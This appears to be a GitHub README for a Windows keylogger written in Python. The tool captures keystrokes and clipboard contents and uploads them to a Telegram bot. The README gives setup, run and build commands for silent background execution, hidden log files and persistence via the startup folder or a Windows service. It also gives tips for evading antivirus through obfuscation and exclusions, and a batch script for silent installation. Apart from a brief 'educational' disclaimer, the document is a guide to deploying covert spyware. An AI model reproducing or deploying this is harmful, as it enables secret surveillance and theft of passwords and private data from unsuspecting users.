

<div align="center">

# 🪟 Windows Keylogger

[](https://python.org)
[](https://microsoft.com)
[](https://github.com/Akashr3)

*Professional keylogging solution optimized for Windows environments*

---

</div>

## 🎯 Overview

This Windows implementation provides comprehensive keylogging capabilities with Windows-specific optimizations and features.

### ✨ Key Features

- **🔐 Native Windows Integration**: Optimized for Windows API
- **📁 Hidden File Storage**: Logs stored in temp directory with hidden attributes
- **🔄 Background Operation**: Silent execution without console window
- **📱 Telegram Integration**: Real-time data transmission
- **🛡️ Error Handling**: Robust exception management

---

## 🚀 Quick Start

### Prerequisites

```powershell
# Check Python version
python --version

# Install Python (if not installed)
# Download from https://python.org/downloads/

# Install pip (if not installed)
python -m ensurepip --upgrade
```

### Installation

```powershell
# Clone the repository
git clone https://github.com/Akashr3/keylogger.git
cd keylogger\Windows

# Install dependencies
pip install -r requirements.txt

# Configure your settings
notepad keylogger.py  # Edit TOKEN, CHAT_ID, and INTERVAL
```

### Running the Keylogger

```powershell
# Direct execution
python keylogger.py

# Background execution (no console)
pythonw keylogger.py

# Create executable
pyinstaller --noconsole --onefile keylogger.py
```

---

## ⚙️ Configuration

### Essential Settings

Edit the following variables in `keylogger.py`:

```python
# Telegram Configuration
TOKEN = 'YOUR_TELEGRAM_BOT_TOKEN'    # Required
CHAT_ID = 'YOUR_TELEGRAM_CHAT_ID'    # Required
INTERVAL = 60                        # Upload interval (seconds)
```

### 🔧 Advanced Configuration

```python
# Windows-specific settings
temp_dir = gettempdir()  # Uses Windows temp directory
FILENAME = f'{temp_dir}\\{datetime.now().strftime(".%d%m%Y%H%M%S")}.log'

# File hiding (Windows only)
system(f'attrib +h {FILENAME}')  # Makes file hidden
```

---

## 🛠️ Technical Details

### Architecture



### Key Components

| Component | Purpose | Technology |
|-----------|---------|------------|
| **Keyboard Listener** | Captures keystrokes | `pynput` |
| **Clipboard Monitor** | Tracks clipboard data | `pyperclip` |
| **File Manager** | Hidden file storage | Windows API + Python |
| **Uploader** | Remote transmission | `requests` + Telegram API |
| **Persistence** | Auto-start mechanism | Windows Registry |

---

## 📋 Dependencies

### Core Requirements

```txt
pynput>=1.7.6          # Keyboard and mouse input
requests>=2.28.0        # HTTP requests
pyperclip>=1.8.2        # Clipboard access
```

### System Requirements

- **OS**: Windows 10/11 (64-bit recommended)
- **Python**: 3.8 or higher
- **Memory**: 50MB minimum
- **Storage**: 10MB for logs
- **Permissions**: User-level access

---

## 🔧 Usage Examples

### Basic Usage

```powershell
# Run with default settings
python keylogger.py

# Run in background (no console)
pythonw keylogger.py

# Run with custom interval
python keylogger.py --interval 300
```

### Advanced Usage

```powershell
# Create Windows service
sc create "KeyloggerService" binPath="C:\path\to\keylogger.exe"

# Add to startup folder
copy keylogger.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"

# Run as administrator
powershell -Command "Start-Process python -ArgumentList 'keylogger.py' -Verb RunAs"
```

### Executable Creation

```powershell
# Install PyInstaller
pip install pyinstaller

# Create single executable
pyinstaller --noconsole --onefile keylogger.py

# Create with icon
pyinstaller --noconsole --onefile --icon=icon.ico keylogger.py

# Create with additional files
pyinstaller --noconsole --onefile --add-data "config.ini;." keylogger.py
```

---

## 🐛 Troubleshooting

### Common Issues

| Issue | Solution |
|-------|----------|
| **Permission Denied** | Run as Administrator or check file permissions |
| **Module Not Found** | Install dependencies with `pip install -r requirements.txt` |
| **Telegram API Error** | Verify `TOKEN` and `CHAT_ID` settings |
| **File Access Error** | Check temp directory permissions |
| **Antivirus Detection** | Add exclusion or use different compilation method |

### Debug Mode

```powershell
# Enable debug logging
$env:DEBUG = "1"
python keylogger.py

# Check Windows Event Log
Get-EventLog -LogName Application -Source "Python" -Newest 10
```

---

## 🔒 Security Considerations

### Stealth Features

- **Hidden file attributes** for log files
- **Temp directory storage** to avoid detection
- **No console window** during execution
- **Silent error handling** to minimize traces

### Antivirus Considerations

- Some antivirus software may flag the executable
- Consider using code signing certificates
- Use obfuscation techniques for production
- Test thoroughly before deployment

---

## 📊 Performance Optimization

### Resource Management

```python
# Optimize memory usage
import gc
gc.collect()  # Force garbage collection

# Optimize file I/O
with open(FILENAME, 'a+', buffering=8192) as fh:
    fh.write(data)
```

### Monitoring

```powershell
# Monitor process
Get-Process python | Where-Object {$_.ProcessName -eq "python"}

# Monitor file size
Get-ChildItem $env:TEMP\*.log | Sort-Object Length -Descending

# Monitor network activity
netstat -an | findstr :443
```

---

## 🚀 Deployment Strategies

### Silent Installation

```powershell
# Create installer script
$installer = @"
@echo off
python -m pip install -r requirements.txt
pythonw keylogger.py
"@
$installer | Out-File -FilePath "install.bat" -Encoding ASCII
```

### Enterprise Deployment

```powershell
# Group Policy deployment
# 1. Create MSI package
# 2. Deploy via Group Policy
# 3. Configure startup scripts
# 4. Monitor via Event Logs
```

---

## 📞 Support

<div align="center">

### 🆘 Need Help?

[](https://github.com/Akashr3/keylogger/issues)
[](https://github.com/Akashr3/keylogger/discussions)

### 👨‍💻 Author

[](https://github.com/Akashr3)

---

**⚠️ Legal Notice**: This tool is for educational purposes only. Use responsibly and in compliance with applicable laws.

</div>